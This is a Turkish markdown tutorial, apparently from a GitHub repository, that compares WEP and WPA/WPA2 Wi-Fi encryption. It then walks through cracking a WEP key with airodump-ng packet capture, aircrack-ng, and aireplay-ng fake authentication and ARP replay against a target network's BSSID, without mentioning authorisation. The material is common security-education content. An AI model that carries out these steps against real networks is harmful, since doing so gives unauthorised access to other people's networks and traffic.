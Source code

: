 - Wifi ağları **WEP** ve **WPA/WPA2** ile şifreleme algoritmaları ile korunur.
---

## 🔐 WPA ve WEP Arasındaki Fark 
### 🧓 WEP (Wired Equivalent Privacy) – Eski ve Güvensiz 🚫

#### 🧠 Mantığı:
- Sabit bir **şifreleme anahtarı 🔑** kullanır.
- Bu anahtar herkes için **aynıdır**.
- **RC4** adında zayıf bir şifreleme algoritması kullanır.
- Her pakette **çok az değişiklik** olur → Kolayca **kırılır 🔨**.

#### ❌ Sorunları:
- 🔁 Şifre sürekli **aynı** → Kolay **tahmin edilir**.
- 👨‍💻 Hacker'lar birkaç dakika içinde **şifreyi çözebilir**.
- 📅 **1999 yılında** çıktı ama **artık güvenli değil**.

---

### ✅ WPA (Wi-Fi Protected Access) – Daha Güvenli 💪

#### 🧠 Mantığı:
- **Her kullanıcıya özel** bir şifreleme yöntemi kullanır 🔄.
- Dinamik olarak **şifre değiştirir 🔄🔐** (her paket farklı olabilir!).
- **TKIP** (Temporal Key Integrity Protocol) ile paket başına **farklı anahtar** üretir.
- WPA2 ile birlikte **AES 🔥** gibi güçlü algoritmalar kullanılır.

#### 👍 Avantajları:
- 📦 Her veri paketi için **farklı şifre** → Zor kırılır 🧱.
- 🕵️‍♂️ Hacker için iş **çok daha zor**.
- 🔒 Şifre **değişebilir**, sabit kalmaz.

---

### 🔍 Özetle:

| Özellik       | 🧓 WEP                      | 🧑 WPA                         |
|---------------|-----------------------------|--------------------------------|
| Şifreleme     | Sabit RC4 🔐                | TKIP (WPA) / AES (WPA2) 🔥     |
| Güvenlik      | Çok zayıf ❌                | Orta (WPA) / Yüksek (WPA2) ✅  |
| Şifre Değişimi| Yok 🔁                      | Var 🔁🔁🔁                       |
| Kırılması     | Çok kolay 🧨                | Çok zor 🛡️                    |

---

### 💡 Kısaca:
**WEP = Eski, sabit, zayıf 🔓**  
**WPA = Yeni, dinamik, güçlü 🔒**

---

## 🧨 WEP Kırma

### 1. 📡 Modemi Dinleme
- `airodump-ng` ile ağları dinle:
  ```bash
  airodump-ng <interface>
  ```
- Ekrandaki hedef modem bilgilerini (BSSID ve kanal) not al.
- Hedef ağı dinle ve yazdır :
  ```bash
  airodump-ng --channel <channel> --bssid <bssid> --write <txt> <interface>
  ```
### 2. 📥 Paket Toplama ve Şifreyi Kırma
- Dinleme sırasında `.cap` uzantılı bir dosya oluşur.
- Bu dosyayla şu komutu çalıştır:
  ```bash
  aircrack-ng dosya.cap
  ```
- 🗝️ Şifre doğrudan terminalde görünür!

⚠️ **Not:** Bu işlemin çalışması için ağda **aktif trafik** olması gerekir.

---

## 🕵️‍♂️ Fake Authentication (Sahte Kimlik Doğrulama)

Ağda yeterli trafik yoksa kendin oluşturabilirsin. İşte adımlar:

### 🔐 1. Sahte Bağlantı Kurma
```bash
aireplay-ng --fakeauth 0 -a (BSSID) -h (Wi-Fi kart MAC) (interface)
```
- 📡 Modeme sahte bir şekilde bağlanır.
- MAC adresini öğrenmek için:
  ```bash
  ip addr
  ```

### 🔁 2. ARP Replay ile Trafik Oluşturma
```bash
aireplay-ng --arpreplay -b (BSSID) -h (Wi-Fi kart MAC) (interface)
```
- 💣 Modemde **sahte veri trafiği** oluşturur.
- Bu sayede şifreleme kırılabilir hale gelir.
